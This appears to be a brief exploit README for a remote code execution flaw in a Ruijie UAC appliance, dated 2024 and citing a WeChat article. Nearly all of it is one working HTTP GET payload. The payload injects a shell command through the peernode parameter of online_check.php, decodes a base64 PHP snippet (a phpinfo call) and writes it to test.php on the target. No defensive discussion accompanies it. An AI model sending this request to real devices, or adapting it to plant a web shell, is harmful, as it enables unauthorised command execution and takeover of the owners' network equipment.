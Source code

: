 # ruijie_uac_online_check_rce

from: 
2024.3.4
https://mp.weixin.qq.com/s/n6mCYi2L3cZGH8SaN7yblg @2
```
GET  /view/vpn/autovpn/online_check.php?peernode= | `echo PD9waHAgcGhwaW5mbygpOw== | base64 -d > test.php`
```
